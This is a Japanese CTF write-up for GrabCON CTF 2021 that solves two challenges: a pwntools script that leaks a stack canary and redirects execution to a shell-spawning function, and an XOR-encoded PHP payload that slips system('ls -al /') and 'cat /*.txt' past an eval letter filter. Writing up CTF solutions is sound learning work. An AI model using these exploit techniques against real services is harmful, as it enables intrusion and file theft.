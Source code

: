 ```yaml
---
title: "GrabCON CTF 2021 Writeup"
date: 2021-09-05T20:00:00+09:00
lastmod: 2021-09-05T20:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fgrabcon_ctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://ctf.thecybergrabs.org/](https://ctf.thecybergrabs.org/)
<br /><br />
結構、Server Errorが出てましたね。。

<br />

750点を獲得し、174位でした。

<br><br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score1.png" alt="grabcon_CTF_2021_Score1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_Score2.png" alt="grabcon_CTF_2021_Score2.png">


<br><br>
チャレンジのリストです。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall1.png" alt="grabcon_CTF_2021_chall1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall2.png" alt="grabcon_CTF_2021_chall2.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_chall3.png" alt="grabcon_CTF_2021_chall3.png">

<br>



<br /><br />
## [Pwn]: Can you? (100 points)
- - -
### Challenge
> Can you?
<br /><br />
nc 35.246.42.94 31337

Attachment:

- cancancan (ELF 32bit)

<br />
### Solution
checksecを確認。
<pre>
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
</pre>

タイトルなどから、Canaryに関連したチャレンジなのがわかります。

<br />
Ghidraでコードを確認します。

{{< highlight powershell "linenos=table,hl_lines=27 28" >}}
undefined4 main(void)

{
  init((EVP_PKEY_CTX *)&stack0x00000004);
  puts("can you bypass me???");
  vuln();
  return 0;
}


void vuln(void)

{
  int in_GS_OFFSET;
  char *__buf;
  undefined4 uVar1;
  undefined4 uVar2;
  int local_78;
  char local_74 [100];
  int local_10;
  
  uVar2 = 0x80492d6;
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  for (local_78 = 0; local_78 < 2; local_78 = local_78 + 1) {
    uVar1 = 0x200;
    __buf = local_74;
    read(0,__buf,0x200);
    printf(local_74,__buf,uVar1,uVar2);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}


void win(void)

{
  system("/bin/sh");
  return;
}

{{< / highlight >}}

<br />
Buffer Overflow と、Format String Bug (書式文字列攻撃) の両方の脆弱性がありますね。

<br />
"ctf 32bit canary fsb leak" でググったら、以下のWikiでほぼそのまんまの内容が見つかりました。

[https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary](https://wiki.vaala.cloud/pwn/linux/mitigation/canary/#canary-leaks-canary)

<br />

書いたコード（ほぼ流用）

```Python
#!/usr/bin/env python
from pwn import *
context.binary = 'cancancan'

s = remote('35.246.42.94', 31337)

# Leak Canary
s.recvuntil("can you bypass me???")
payload = "A" * 100
s.sendline(payload)
s.recvuntil ("A" * 100)
Canary = u32(s.recv(4))-0xa
log.info("Canary:"+hex(Canary))

# Bypass Canary
addr_win = ELF("./cancancan").sym["win"]
payload = b"A" * 100 + p32(Canary) + b"A" * 12 + p32(addr_win)
s.send(payload)
s.interactive ()

```

<br />
Wikiではあんまり説明がなかったので補足すると、pwntoolsのsendlineは最後に改行 ("\n") が入るので101バイトが書き込まれ、("\n") で Canary の "\x00" 部分が上書きされます。

これによって、printfの結果がもともと"\x00"で止まるはずだったのが、Canaryを含めて出力されます。

("\n")は "\x0a" なので、-0xa をしています。0xFFFFFF00 でゼロクリアでも同じ結果になるはず。


<br />

Flag: `GrabCON{Byp4ss_can4ry_1s_fun!}`



<br /><br />
<br /><br />
## [Web]: Basic Calc (150 points)
- - -
### Challenge
> Ever used calc based on php?
<br /><br />
Link

<br />
### Solution
ウェブサイトにアクセスすると、計算用のフォームと、PHPコードが表示されます。

PHPのコード部分は以下でした。
```php
<?php

if (isset($_POST["eq"])){
    
    $eq = $_POST["eq"];

    if(preg_match("/[A-Za-z`]+/",$eq)){
        die("BAD.");
    }
    echo "Result: ";
    eval("echo " . $eq . " ;");
}else{
  echo highlight_file('index.php',true);  
}

?>
```
<br />
アルファベットを使わずにコマンドを入力しeval()に渡す、ということをしないといけません。

<br />
これも、ググって調べると、どうやら Root-Me の「PHP Eval」という問題と同じみたいです。

以下の Write Up を参考にさせていただきました。<br>
[https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128](https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128)

<br />
コードは上記の Write Up をそのまま使ったので、ここには載せません。

<br />

system("ls -al")を実行したいとすると、
<pre>
system = ('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')
ls -al / = (','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'
</pre>

<br />

以下をPOSTすることになります。
<pre>
<font color="red">(</font>('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')<font color="red">)</font><font color="red">(</font>(','^'@').('('^'[').('['^'{').'-'.('!'^'@').(','^'@').('['^'{').'/'<font color="red">)</font>
</pre>
このようにカッコ（<font color="red">赤い</font>部分）をつけないと、単純にechoでコマンド自体が表示されて、コマンドの結果が得られません。

<br />

`ls -al /` を確認したら、/flagggg.txt があるのがわかります。

ここで、

`cat /flagggg.txt` をやろうとすると、以下のようにエラーになってしまいました。

<img src="https://captureamerica.github.io/writeups/img/grabcon_CTF_2021_basic_calc.png" alt="grabcon_CTF_2021_basic_calc.png">

<br />

`cat /*.txt` にて、フラグを得ることができました。

<br />

Flag: `GrabCON{b4by_php_f0r_y0u}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
